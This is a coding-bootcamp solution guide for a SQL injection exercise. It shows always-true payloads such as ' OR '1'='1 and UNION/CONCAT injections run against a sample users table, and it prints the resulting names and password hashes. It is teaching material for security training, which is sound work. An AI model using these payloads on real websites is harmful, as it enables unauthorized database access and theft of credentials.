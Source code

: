 ## Solution Guide: SQL Refresher and Unintended SQL Queries

In this activity, you designed several malicious SQL payloads that you will use in the next activity to test for SQL injection vulnerabilities against the Replicants live production website.

---

1. `select first_name, last_name from users where id = ''`

    - For this query, place a `1` between the single quotes and select Run at the top left of the DB Fiddle page.

      - `select first_name, last_name from users where user_id = '1'`
      
    - After running the query, the program will output the following:
          
        first_name |	last_name
        ------------ | ------------- 
        admin	| admin
      
2. `select first_name, last_name from users where id = ''`

    - To use the payload for the most common always true query, add `' OR '1' = '1` to the input.
      
    - The following will cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR '1' = '1' `

    - After running the query, the program will output the following:
      
        first_name | last_name 
        ------------ | ------------- 
        admin | admin
        gordon | brown
        hack | me
        pablo | picasso
        bob | smith
        
3. `select first_name, last_name from users where id = ''`

    - You can use any value for an always true statement as long as it equals itself.

    - The following will also cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR 'dog' = 'dog' `
      
    - The new query will return the same results as the previous query:
        
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   

4. **Bonus**: `select first_name, last_name from users where id = ''`

    - Adding the `UNION` command to the query will allow us to pull data from other fields or tables.

    - When adding an additional command with `UNION`, the count of fields requested (2 - first_name, password) needs to match the count of the original request (2 - first_name, last_name):

      - `select first_name, last_name from users where user_id = '1' UNION select first_name, password from users where '1' = '1'`

    - Note that `UNION` is basically running two queries together:

      - `select first_name, last_name from users where user_id = '1'`  

      - `select first_name, password from users where '1' = '1'`
      
    - The query will return the following:
        
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

    - Note that the one result of the first part of the query is returned, followed by the six results of the second query.

5. **Bonus**: `select first_name, last_name from users where id = ''`

    - To pull data from all four fields, the `UNION` and `CONCAT` command can be added to the request.

    - Because the count of fields requested (3 - first_name, last_name, password) needs to match the count of the original request (2 - first_name, last_name), we need to combine two of the fields with the `CONCAT` command, using the following query:

      - `select first_name, last_name from users where user_id = '1' UNION select CONCAT(first_name,last_name), password from users;`
               `
            
    - The query will return the following:
        
      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |


    - Note how the first and last names are combined in the `first_name` field, starting with the second record.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
